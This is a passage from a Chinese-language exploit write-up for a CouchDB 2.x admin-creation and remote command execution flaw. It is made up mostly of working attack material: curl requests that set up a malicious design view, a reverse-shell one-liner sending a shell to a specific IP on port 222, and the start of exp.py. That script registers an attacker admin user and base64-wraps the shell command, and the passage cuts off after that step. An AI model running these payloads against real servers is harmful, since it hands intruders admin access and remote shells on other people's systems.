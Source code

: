 ```textile
curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest'

curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

由于 Couchdb 2.x 删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

第四个请求修改为：

```textile
curl -X PUT http://co0ontty:password@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令。

也可以使用 python 将这一过程连贯运行，并得到反弹 shell 的效果

补充：

linux 环境下可以通过下面这个命令实现反弹 shell

```textile
sh -i >& /dev/tcp/47.102.143.147/222 0>&1
```

/dev/[tcp|upd]/host/port 是 Linux 设备里面比较特殊的文件，读取或写入相当于建立 socket 调用 
由于其特殊性，命令执行后依旧无法找到/dev/tcp 目录更不要说下面的文件了  
注意，这里"&"在 Linux shell 中表示后台运行，当然这里 0>&1 不是这样,对于&1 更准确的说应该是文件描述符 1,而 1 一般代表的就是 STDOUT_FILENO

2>&1 形式用于重定向，2>表示错误重定向，&1 表示标准输出；以 ls >/dev/null 2>&1 为例，2>&1 是将标准出错重定向到标准输出，不过在这里又被重定向到了/dev/null 这个无底洞里
这里有一个问题：为什么 2>&1 要写在后面，以 command >file 2>&1 为例，首先是 command > file 将标准输出重定向到 file 中， 2>&1 是标准错误拷贝了标准输出的行为，也就是同样被重定向到 file 中，最终结果就是标准输出和错误都被重定向到 file 中 
其实还有一个问题，既然 2>表示错误重定向，那么 0>表示什么呢？查阅资料发现在 Linux 下输入输出重定向有三个值，其中 2 已经说过是标准错误信息输出，那 0 则是标准输入，1 则为标准输出了。说到这里，其实又引出了一个新的问题，我们知道<才是表示输入的，那为何这里却是如此形式，按说就应该是 2 了，或者说这里 0 就已经是输入了，然后直接使用>进行输出，不是很清楚请大牛指点啊

exp.py:

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://47.102.143.147:5984'
command = rb"""sh -i >& /dev/tcp/47.102.143.147/222 0>&1"""
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:co0ontty', data='''{
  "type": "user",
  "name": "co0ontty",
  "roles": ["_admin"],
  "roles": [],
  "password": "co0ontty"
}''')

session.auth = HTTPBasicAuth('co0ontty', 'co0ontty')
# print (session.auth)
command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
```